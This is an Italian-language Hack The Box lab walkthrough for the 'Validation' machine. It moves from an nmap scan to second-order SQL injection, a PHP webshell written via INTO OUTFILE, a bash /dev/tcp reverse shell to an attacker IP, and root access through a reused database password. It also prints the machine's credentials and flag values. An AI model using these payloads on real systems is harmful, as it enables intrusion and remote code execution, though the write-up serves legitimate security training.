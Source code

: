 **Target: 10.10.11.116**

# INFORMATION GATHERING

Per prima cosa lanciamo un scan veloce con [Nmap](Note/Tool/Nmap.md) per vedere quali porte e quali servizi 
girano sulla macchina 

```bash
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nmap -sC -sV -O -p- --min-rate=5000 10.10.11.116
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-15 06:35 EDT
Warning: 10.10.11.116 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.116
Host is up (0.044s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE    SERVICE        VERSION
22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp    open     http           Apache httpd 2.4.48 ((Debian))
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
2902/tcp  filtered netaspi
2963/tcp  filtered iph-policy-adm
3750/tcp  filtered cbos-ip-port
4566/tcp  open     http           nginx
|_http-title: 403 Forbidden
5000/tcp  filtered upnp
5001/tcp  filtered commplex-link
5002/tcp  filtered rfe
5003/tcp  filtered filemaker
5004/tcp  filtered avt-profile-1
5005/tcp  filtered avt-profile-2
5006/tcp  filtered wsm-server
5007/tcp  filtered wsm-server-ssl
5008/tcp  filtered synapsis-edge
8060/tcp  filtered aero
8080/tcp  open     http           nginx
|_http-title: 502 Bad Gateway
26108/tcp filtered unknown
37123/tcp filtered unknown
40549/tcp filtered unknown
46120/tcp filtered unknown
56352/tcp filtered unknown
57395/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/15%OT=22%CT=1%CU=33394%PV=Y%DS=2%DC=I%G=Y%TM=64B276A
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST1
OS:1NW7%O6=M53CST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.39 seconds
```

Abbiamo 4 porta aperte

- 22/tcp    open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
- 80/tcp    open     http           Apache httpd 2.4.48
- 4566/tcp  open  http           nginx
- 8080/tcp  open  http           nginx

Partiamo ad enumerare la porta 80

# ENUMERTION

Visitiamo la pagina web, ci troviamo di fronte ad un pagina di registrazione 

![](../zzz_rev/attachments/Validator1.png)

Proviamo a registrare un utente,

![](../zzz_rev/attachments/Validator.png)

Vediamo che ci restituisce una pagina /account.php, il .php ci suggerisce che la webapp utilizzi php come linguaggio.
Notiamo anche l'input inserito precedentemente viene visualizzato in /account.php
Potrebbe suggerisci una SQLinjection
Proviamo ad inserire il payload '-- - 

![](../zzz_rev/attachments/validatro2.png)
Non otteniamo nessun informazione.

Proviamo a vedere la richiesta trammite burp.

![](../zzz_rev/attachments/Validator3.png)
Vediamo che abbiamo anche il campo `country` in cui possiamo provare una SQLinjection.
Priviamo a mettere il payload ' nel campo `country`

![](../zzz_rev/attachments/Validator5.png)

Questa è una SQL injection di secondo ordine.

Posso immaginare che la query SQL sulla pagina assomigli a:

```
SELECT username from players where country = '[input]';
```

Un'iniezione UNION è quando aggiungo un'istruzione UNION alla query che mi consente di creare una nuova query e aggiungere i risultati alla query desiderata. Dovrò far corrispondere lo stesso numero di colonne o la query darà un errore. Inizierò con UNION SELECT 1 del Brasile;-- -. Ciò renderebbe la query:
```
SELECT username from players where country = 'Brazil' UNION SELECT 1;-- -';
```

![](../zzz_rev/attachments/Validator6.png)
Vadiamo che la query funziona.
Proviamo ad aggiungere il 2 per vedere se abbiamo due collonne.

```
' UNION select 1,2-- -
```

![](../zzz_rev/attachments/Validator7.png)
Ci restituisce un errore, quindi possiamo ipotizzare che abbiamo 1 solo colonna.

Ora che sappiamo come manipolare la query enumeriamo ulteriormente il database.

Con ' UNION @@version-- - vediamo con che tipo di database abbiamo a che fare.

![](../zzz_rev/attachments/Validator8.png)
Il database è MariaDB 10.5.11

vediamo che utente siamo con ' UNION user( )-- -
![](../zzz_rev/attachments/Validator9.png)
Siamo uhc@localhost
Vediamo se il nostro utente ha i permessi FILE, se cosi fosse avremmo i permessi di lettura e scrittura sul server. Questo ci consentirebbe di caricare una webshell.

con `' UNION SELECT super_priv FROM mysql.user-- -` vediamo se abbiamo i privilegi di admin e quindi anche i permessi FILE

![](../zzz_rev/attachments/Validator10.png)

Ci resituisce Y che sta per yes quindi siamo admin, questo significa abbiamo i permessi per leggere scrivere sul server non ci cresta che caricare un webshell.

Utilizziamo

' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- - 

come payload 

![](../zzz_rev/attachments/Validator11.png)
Ci restituisce errore ma dovrebbe ever funzionato 
Visitiamo /shll.php  e con  `?cmd=id` vediamo che abbiamo la nostra webshell

![](../zzz_rev/attachments/Validator12.png)

Vediamo di aver una revshell più stabile.
Ricarichiamo la pagina e la intercettiamo sempre con burp. Cambiamo metodo di richiesta da GET a POST e nel campo cmd= andiamo ad inserire la nostra revshell.

```
bash -c 'bash -i >& /dev/tcp/10.10.14.19/1234 2>&1
```

codifichiamo in URL 

```
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.19/1234+0>%261'
```

Ci mettiamo in ascolto con nc 

```
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nc -lvp 1234
listening on [any] 1234 ...

```

Otteniamo cosi la nostra revshell

```bahs
┌──(root㉿kali)-[/home/kali/htb/validation]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.116] 38776
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/var/www/html$
```

# PRIVESC

Diamo un occhiata al contenuto della directory in cui troviamo 

```bash
www-data@validation:/var/www/html$ ls
ls
account.php
config.php
css
index.php
js
rabbit.php
www-data@validation:/var/www/html$

```

Vediamo il file config.php sembra essere interessante, ispezziniamolo

```bash
www-data@validation:/var/www/html$ cat config.php
cat config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Sembrano essere delle credenziali.
Spesso è una brutta abitudine quella di riutilizzare la stessa password per più servizi
Proviamo ad utilizzare queste credenziali per avere i privilegi root

```bash
www-data@validation:/var/www/html$ su root
su root
Password: uhc-9qual-global-pw
id
uid=0(root) gid=0(root) groups=0(root)
```

BINGO!

Flag user

```bash
www-data@validation:/home/htb$ cat user.txt
cat user.txt
bfd1a1084cbc889e9eb76a83c69d4650
```

Flag root

```bash
cat root.txt
9c8d44249b70ef81ac143e9ec9b45b6c
```

